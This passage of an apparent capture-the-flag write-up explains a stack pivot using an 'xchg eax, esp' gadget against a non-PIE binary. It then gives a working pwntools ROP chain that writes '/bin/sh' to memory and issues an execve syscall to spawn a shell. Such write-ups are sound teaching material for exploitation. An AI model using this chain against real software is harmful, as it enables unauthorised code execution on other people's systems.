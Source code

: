 ```
 R14  0x4c9018 (_GLOBAL_OFFSET_TABLE_+24) —▸ 0x44fd90 (__strcpy_avx2) ◂— endbr64 
 R15  0x0
 RBP  0x7ffdef1b8230 —▸ 0x403040 (__libc_csu_init) ◂— endbr64 
 RSP  0x7ffdef1b8220 ◂— 0x0
 RIP  0x402036 (main+190) ◂— call   rdx
```
`$rax` points to the newly readen input, same for `$r8` and `$rdi` and `$rdx` contains the location to which we will jmp on.
So we can search gadgets like `mov rsp, rax`, `mov rsp, rdi`, `mov rsp, r8` and so on. But I didn't find any gadgets like that, so I looked for `xchg rsp` gadgets, and I finally found a `xchg eax, esp` gadgets ! Since the binary is not PIE based, the heap addresses fit into a 32 bits register, so that's perfect!

Now we can make `$rsp` to point to the user input, we make a similar ropchain as the last challenge, and that's enough to get a shell!
```py

# 0x00000000004126e3 : call qword ptr [rax]
# 0x0000000000485fd2 : xchg eax, ebp ; ret
# 0x0000000000405121 : xchg eax, esp ; ret

pld = b"wwwwww"
pld += b"A"*(0x1000-16) + pwn.p64(0x0000000000405121)
io.sendlineafter("Enter text: ", pld)

# 0x000000000045a8f7 : pop rax ; ret
# 0x0000000000404cfe : pop rsi ; ret
# 0x00000000004018da : pop rdi ; ret
# 0x00000000004017df : pop rdx ; ret
# 0x000000000045684f : mov qword ptr [rdi], rsi ; ret

DATA_SEC = 0x0000000004c90e0
POP_RDI = 0x00000000004018da
POP_RSI = 0x0000000000404cfe
POP_RAX = 0x000000000045a8f7
POP_RDX = 0x00000000004017df
MOV_PTR_RDI_RSI = 0x000000000045684f
SYSCALL = 0x00000000004012e3 # syscall

pld = pwn.p64(POP_RDI)
pld += pwn.p64(DATA_SEC)
pld += pwn.p64(POP_RSI)
pld += b"/bin/sh\x00"
pld += pwn.p64(MOV_PTR_RDI_RSI)
pld += pwn.p64(POP_RSI)
pld += pwn.p64(0x0)
pld += pwn.p64(POP_RDX)
pld += pwn.p64(0x0)
pld += pwn.p64(POP_RAX)
pld += pwn.p64(0x3b)
pld += pwn.p64(SYSCALL)
```
